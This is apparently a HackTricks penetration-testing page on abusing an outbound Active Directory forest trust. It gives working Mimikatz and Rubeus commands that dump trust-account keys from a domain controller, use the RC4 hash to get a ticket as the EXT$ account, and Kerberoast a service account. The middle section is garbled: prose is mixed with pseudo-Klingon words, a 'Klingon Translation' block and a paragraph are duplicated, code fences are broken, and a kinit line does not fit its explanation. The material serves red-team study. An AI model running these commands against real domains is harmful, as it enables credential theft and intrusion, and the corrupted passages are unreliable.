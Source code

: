 # External Forest Domain - One-Way (Outbound)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

A security vulnerability exists when a trust relationship is established between two domains, identified here as domain **A** and domain **B**, where domain **B** extends its trust to domain **A**. In this setup, a special account is created in domain **A** for domain **B**, which plays a crucial role in the authentication process between the two domains. This account, associated with domain **B**, is utilized for encrypting tickets for accessing services across the domains.

The critical aspect to understand here is that the password and hash of this special account can be extracted from a Domain Controller in domain **A** using a command line tool. The command to perform this action is:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
**ghItlh:** QaStaHvIS **$** Daq **name** Hoch **account** 'e' **active** 'ej **"Domain Users"** **group** 'e' **A** **domain** vItlhutlh. vaj **permissions** 'e' **associated** 'ej **group** 'e' **inherit**. vaj **individuals** **authenticate** **A** **domain** **credentials** **account** 'e' **vItlhutlh**.

**chaw':** **A** **domain** **user** **limited permissions** **user** **A** **domain** **gain** **foothold** **leverage** **feasible** **situation**.

`ext.local` **trusting domain** 'ej **root.local** **trusted domain** 'e'. **user account** **EXT$** **created** **root.local**. **specific tools** **through**, **Kerberos trust keys** **dump** **possible**, **credentials** **EXT$** **revealing** **root.local** **vItlhutlh**. **command** **achieve** **this** **is**:
```bash
lsadump::trust /patch
```
**Following this, one could use the extracted RC4 key to authenticate as `root.local\EXT$` within `root.local` using another tool command:**

```
command: kinit -k -t <path_to_keytab_file> EXT$
```

This command will authenticate the user `EXT$` using the extracted RC4 key and the keytab file.
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
**Klingon Translation:**

```
### Authentication Step

**tlhIngan Hol Translation:**

**'Iw HIq authentication:**

```

This authentication step opens up the possibility to enumerate and even exploit services within `root.local`, such as performing a Kerberoast attack to extract service account credentials using:

```
### Qapla' Authentication

**tlhIngan Hol Translation:**

**Qapla' 'Iw HIq authentication:**

```

This authentication step opens up the possibility to enumerate and even exploit services within `root.local`, such as performing a Kerberoast attack to extract service account credentials using:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (2) (1) (2) (1).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (1) (1) (1) (2).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
